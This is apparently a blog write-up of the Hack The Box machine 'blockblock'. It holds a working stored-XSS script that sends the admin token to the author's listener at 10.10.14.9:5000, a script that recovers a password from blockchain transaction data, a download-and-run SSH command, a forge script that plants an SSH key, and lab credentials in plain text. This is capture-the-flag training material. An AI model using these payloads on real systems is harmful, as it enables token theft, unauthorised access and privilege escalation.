 ```yaml
---
layout: post
title: HTB - blockblock
date: 2025-04-02 09:03 -0400
---
```


{{ 'blockblock' | get_machine_avatar | raw }}

## nmap
```bash
~/workspace/projects/htb/blockblock » sudo nmap -p- $(cat ip.txt) --min-rate 1024
[sudo] password for shafou:
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-04 10:22 -04
Nmap scan report for 10.10.11.43
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8545/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 77.30 seconds
```

Port 80 is a defi web app.
![main website](/assets/img/blockblock4.png)

8545 is the blockchain rpc endpoint.
Only `eth_blockNumber` seems to work without authentication.
![burp blockchain rpc1](/assets/img/blockblock2.png)
![burp blockchain rpc2](/assets/img/blockblock3.png)

`/api/contract_source` gives us the source code for the solidity part. Since its using a blockchain we can see the whole history and probably find the admin password in there.
```solidity
// Database.sol:38 ~ 42
    constructor(string memory secondaryAdminUsername,string memory password) {
        users["admin"] = User(password, "admin", true);
        owner = msg.sender;
        registerAccount(secondaryAdminUsername, password);
    }
```

There seems to be an XSS on username. So we can get the admin token from `/api/info`.
```python
import requests
import random
import base64

i = random.choice(range(1000000))
url = "http://blockblock.htb/api/register"
payload = b"""fetch("/api/info")
.then(res => { return res.text() })
.then(data => { return fetch(`http://10.10.14.9:5000/?info=${data}`) })
"""
payload = base64.b64encode(payload).decode()

payload = f"{i}<img src=x onerror=eval(atob('{payload}'))>"
headers = {
    "Content-Type": "application/json",
}
data = {"username": payload, "password": "asd", "repeatedPassword": "asd"}
response = requests.post(url, json=data, headers=headers)
t = response.json()["token"]

url = "http://blockblock.htb/api/report_user"
data = {"username": payload}
response = requests.post(url, json=data, headers=headers, cookies={"token": t})
```

After that we check the admin dashboard and find out how the auth works by accident.
![burp blockchain rpc3](/assets/img/blockblock1.png)

You can then add that token to the http header `token: <token>`

We can now check every transaction and look for the admin password.
```python
import requests
import string

url = "http://blockblock.htb:80/api/json-rpc"
cookies = {
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTc0MjkxNTgzNiwianRpIjoiYjllZGYxZTItMWI5My00YWEyLTk2OGYtNjZhN2IyNmNhMzA1IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImFzZCIsIm5iZiI6MTc0MjkxNTgzNiwiZXhwIjoxNzQzNTIwNjM2fQ.bBE5GdYSLkEdJoTFJS0KrfhPBm08Z-Fep5tT8Yz9U2c"
}
headers = {
    "token": "e06e2af5449cb73b6d23bffa0302fe3b57a08f7075a7c6c93113e0fe26b74f68"
}
j = {
    "id": 1,
    "jsonrpc": "2.0",
    "method": "eth_getBlockByNumber",
    "params": ["0x01", True],
}
res = requests.post(
    url,
    headers=headers,
    cookies=cookies,
    json=j,
    proxies={"http": "http://0.0.0.0:8080", "https": "https://0.0.0.0:8080"},
)
trans = res.json()["result"]["transactions"]
for t in trans:
    code = t["input"][2:]

    s = [int(code[i : i + 2], 16) for i in range(0, len(code), 2)]

    dec = ""
    for c in s:
        try:
            c = chr(c)
            if c in string.printable:
                dec = dec + c
                continue

            dec = dec + "___"
        except:
            pass

    print(f"DEBUGPRINT[7]: dec.py:7: dec={dec}")
```

Kinda scuffed but its pretty clear what the password is:

```
keira___________________________________________________________________________________________
______________________________________________________________________________________SomedayBitCo
inWillCollapse__________________
```

it works for both `keira` and `admin`.

```bash
[keira@blockblock ~]$ cat user.txt
cd0fe***************************
```

# priv esc
## paul 1

The creds for the paul account are hardcoded on `/home/keira/webapp/db/db.py`. But this is kinda of guessy way to escalate.

```python
// database.py:16
account = web3.eth.account.decrypt(keystore, "september")
```

## paul 2
Another way to escalate to paul is with forge.
```bash
[keira@blockblock ~]$ sudo -l
User keira may run the following commands on blockblock:
    (paul : paul) NOPASSWD: /home/paul/.foundry/bin/forge
```

You make a forge project. And write your key into paul's authorized keys.
```bash
#!/bin/bash

tar -cvf ./ble.tar.zx ble && mv ./ble.tar.zx ~/flask_lab/static/
sshpass -p 'SomedayBitCoinWillCollapse' ssh keira@$(cat ip.txt) \
  'rm -rf /tmp/123; \
   mkdir -p /tmp/123 && cd /tmp/123 && \
   curl 10.10.14.9:5000/static/ble.tar.zx -O && \
   tar -xvf ble.tar.zx && \
   cd /tmp/123/ble && \
   find -exec chmod 4777 {} \; && \
   sudo -u paul /home/paul/.foundry/bin/forge script script/Counter.s.sol:CounterScript -vvv'
```

```toml
[profile.default]
src = "src"
out = "out"
libs = ["lib"]

fs_permissions = [{ access = "read-write", path = "/" }]
```

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";

contract CounterScript is Script {
    function setUp() public {}

    function run() public {
        vm.startBroadcast();
        vm.writeFile("/home/paul/.ssh/authorized_keys", "<SSH PUB KEY>");
        vm.stopBroadcast();
    }
}
```


## root
For root there is a pretty straight forward [poc](http://thecybersimon.com/posts/Privilege-Escalation-via-Pacman/) to exploit pacman.

```bash
# sshpass -p 'september' ssh paul@$(cat ip.txt)
[paul@blockblock contracts]$ sudo -l
User paul may run the following commands on blockblock:
    (ALL : ALL) NOPASSWD: /usr/bin/pacman
```

```bash
[root@blockblock ~]# cat root.txt
ca20c***************************
```
